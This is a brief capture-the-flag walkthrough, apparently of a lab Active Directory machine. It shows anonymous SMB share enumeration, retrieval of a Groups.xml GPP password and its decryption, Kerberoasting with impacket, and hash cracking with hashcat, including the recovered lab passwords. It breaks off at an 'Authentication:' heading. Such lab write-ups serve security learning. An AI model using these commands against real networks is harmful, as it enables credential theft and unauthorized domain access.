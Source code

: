 We attempt anonymous login via SMB:

```
smbclient -L \\\\10.10.10.100\\
Enter password:
Anonymous login successful

Sharename
Replication    Disk

smbclient \\\\10.10.10.100\\Replication
Enter password:
Anonymous login successful
smb: \> prompt off
smb: \> recurse on
smb: \> mget *

Groups.xml file
```

* We instantly notice <mark style="color:yellow;">Groups.xml</mark> when targetting GPP
* When opening this file, we can see our <mark style="color:yellow;">cpassword</mark>!
* We also identify the user that this password belongs to in the file!&#x20;
  * svc\_tgs

### gpp-decrypt

Copy the cpassword and open a new tab in terminal:

```
gpp-decrypt <place_cpassword_here>
GPPstillStandingStrong2k18
```

### Privilege Escalation after GPP Attack

Kerberoasting:

```
impacket-GetUserSPNs active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

<krb5tgs_hash_here>
```

* We have a service ticket!!

Time to crack the hash:

* Place the ENTIRE hash into the hashes.txt file

```
hashcat64.exe -m 13100 hashes.txt rockyou.txt -O

Ticketmaster1968@10.10.10.100
```

Authentication:
